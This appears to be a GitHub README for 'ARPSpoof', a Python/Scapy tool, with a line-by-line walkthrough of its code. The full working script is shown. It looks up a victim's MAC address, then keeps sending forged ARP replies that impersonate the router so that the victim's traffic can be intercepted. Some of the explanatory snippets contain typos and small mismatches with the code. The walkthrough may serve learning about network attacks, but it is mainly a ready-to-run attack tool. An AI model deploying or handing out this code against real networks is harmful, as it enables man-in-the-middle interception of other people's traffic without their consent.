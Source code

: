 ## Description
***
ARPspoof is a tool written in python designed to perform ARP spoofing attack.
This tool allows the user to manipulate and intercept network traffic, is able to find MAC address from the victim IP address
ARP (address resolution protocol) a protocol that links an IP addres with a MAC of an endpoint.
## Code explanation
***
```
import subprocess, time
import scapy.all as scapy
from termcolor import colored as cl
from pyfiglet import figlet_format as ff
```
##### `import subprocess, time`
***
subprocess is a module that allows you to spawn new processes.
`time` is a time management function.

##### `import scapy.all as scapy`
***
Scapy is a powerful interactive packet manipulation library written in Python. Scapy is able to forge or decode packets of a wide number of protocols, send them on the wire, capture them, match requests and replies, and much more.
import `scapy.all` assigns the alias `scapy`.

##### `from termcolor import colored as cl`
***
Termcolor is an ANSI color formatting for output in terminal
import the function `colored` from `termcolor` library and assigns alias `cl`.

##### `from pyfiglet import figlet_format as ff`
***
It takes ASCII text and renders it in ACII art fonts 
import `filglet_format` from `pyfiglet` library and assigns alias `ff`.

```
def get_mac_address(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
    broadcast_arp_request = broadcast/arp_request
    data = scapy.srp(broadcast_arp_request, timeout=1,        verbose=False)[0]
    mac = data[0][1].hwsrc
    return mac
```

create an ARP packet that requestthe MAC address associated with the given IP, this packet is encapsulated into the ethernet packet, srp send the packet and wait for reaponse, the MAC got extracted from the response
#### def get_mac_address(ip)
***
definition of the function `get_mac_address`, take the IP address and uses to make ARP request.

#### arp_request = scapy.ARP(pstd=ip)
***
scapy.ARP create an ARP request, protocol destination (pdst) set the destination IP.


#### broadcast = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
***
create an ethernet packet, with broadcast MAC setted.

#### broadcast_arp_request = broadcast/arp_request
***
we used `/` to combine both ARP and broadcast ethernet Packet, this will make the endpoint to answer back with his MAC address.

#### data = scapy.srp(broadcast_arp_request, timeout=1, verbose=False)[0]
***
`srp()` function send packet and recives packets at layer, `broadcas_arp_request` the packet we created, 
`timeout=1` wait 1 second,
`false` disable the detailed output, 
`srp` return a tuple, where the first element contain all the responses, [0] take that list

#### mac = data{0}{1}.hwsrc
***
the MAC address got extracted from the answer, `data` take the element from the list that contains request and response, `[1]` take the request
`hwsrc` contains the MAC address of the endpoint who sended the response

#### return = mac
***
output the MAC 

```
def arp_spoofing(tip, rip):
    tmac = get_mac_address(tip)
    cnt = 0
    while True:
        try:
            print(cl('='*50, 'red'))
            print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
            print(cl('='*50, 'red'))
            packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac, psrc=rip)
            scapy.send(packet, verbose=False)
            cnt += 2
            print(cl(f'Packets sent: {str(cnt)}', 'green'))
            time.sleep(1)
            subprocess.call('clear', shell=True)
        except KeyboardInterrupt:
            print(cl(f'Quitting program...', 'red'))
            break
```

#### def arp_spoofing(tip, rip)
***
definition of the function `arp_spoofing(tip, rip)` target ip/router ip
#### tmac = get_mac_address(tip)
call the function `get_mac_address` taking the MAc of the target ip, the result is stored into tmac

#### cnt = 0
***
count the packet and track the number of packets

``` 
while True:
        try:
            print(cl('='*50, 'red'))
            print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing
            program\n\t\t\t-An AYLIT production', 'red'))
            print(cl('='*50, 'red'))
            packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac psrc=rip)
            scapy.send(packet, verbose=False)
            cnt += 2
            print(cl(f'Packets sent: {str(cnt)}', 'green'))
            time.sleep(1)
            subprocess.call('clear', shell=True)
        except KeyboardInterrupt:
            print(cl(f'Quitting program...', 'red'))
            break
```
***
`print(cl('='*50, 'red'))
`print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing
`program\n\t\t\t-An AYLIT production', 'red'))print(cl('='*50, 'red'))` graphic stuff

#### packet = scapy.ARP(op=2, pdst=tip, hwdst=tmac psrc=rip)
***
create a packet containing all the components, `op=2` specify the kind of ARP operation 2 specify response, `pdst=tip` set the destination IP, `hwdst=tmac` set the MAC, `psrc=rip` set the source IP that will be covered with rip

#### scapy.send(packet, verbose=False)
***
send the packet, `false` supress the detailed output


`cnt += 2` +2 on the counter
`print(cl(f'Packets sent: {str(cnt)}', 'green')` print the number of packets sent
`time.sleep(1)` introduce 1 second pause

#### subprocess.call(`clear`, shell=True)
***
clear the terminal

#### except KeyboardInterrupt: print(cl(f'Quitting program...', 'red')) break
***
when a user press `ctrl + c` an exit message get printed, `break` quit the cicle

```
subprocess.call('clear', shell=True)

print(cl('='*50, 'red'))
print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
print(cl('='*50, 'red'))

target_ip = input(cl("Enter the target's IP:", 'yellow'))
router_ip = input(cl("Enter the router's IP:", 'yellow'))
subprocess.call('clear', shell=True)

arp_spoofing(target_ip, router_ip)
```

#### subprocess.call('clear', shell=True)
***
clear the terminal

`print(cl('='*50, 'red'))
`print(cl(ff('ARPSpoof')+'\n\t\t\t-ARP Spoofing program\n\t\t\t-An AYLIT production', 'red'))
`print(cl('='*50, 'red'))`  
***
graphic stuffs

#### target_ip = input(cl("Enter the target's IP:", 'yellow'))
***
ask the user to insert target IP

#### router_ip = input(cl("Enter the router's IP:", 'yellow'))
***
ask the user to insert router IP

#### subprocess.call('clear', shell=True)
clear the terminal

#### arp_spoofing(target_ip, router_ip)
***
call the function `arp_spoofing` using the target/router IP asked
